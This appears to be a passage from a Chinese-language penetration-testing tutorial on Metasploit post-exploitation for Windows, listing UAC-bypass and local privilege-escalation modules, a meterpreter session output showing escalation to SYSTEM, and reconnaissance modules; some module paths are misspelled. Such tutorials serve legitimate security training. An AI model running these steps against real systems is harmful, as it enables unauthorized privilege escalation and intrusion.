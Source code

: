 ![w5I8pR.png](https://s1.ax1x.com/2020/09/19/w5I8pR.png)

#### UAC绕过

msf模块：

`exploit/windows/local/bypassuac`

`exploit/windows/local/bypassuac_injection`

`exploit/windows/local/bypassuac_vbs`

使用模块，设置信息之后，exploit,会获取到新的会话，可直接提权

```
meterpreter > getuid
Server username: admin-PC\admin
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

#### 利用提权漏洞进行提权

ms14_058、 ms16_032、 ms15_051 、  ms16_016

msf模块 `exploit/windows/local/ms14_058_track_popup_menu`

这里直接进去就是system权限，

ps： payload和target的86位和64位。

## 后渗透模块之信息收集

* 获取目标机器的分区情况： `post/windwos/gather/forensics/enum_drives`
* 判断是否为虚拟机 `post/windows/gather/checkvm`
* 开启了哪些服务  `post/windwos/gather/enum_services`
* 安装了那些应用： `post/windows/gather/enum_applications`
* 查看共享：  `post/windows/gather/enum_shares`
* 获取主机最近的系统操作： `post/windows/gather/dumplinks`
* 查看安装补丁：  `post/windows/gather/enum_patches`
* scraper脚本
* winenum脚本

post按 tab，

```
meterpreter > run post/
Display all 229 possibilities? (y or n)
```		

与windows相关的模块

```
meterpreter > run post/windows/
Display all 185 possibilities? (y or n)
```
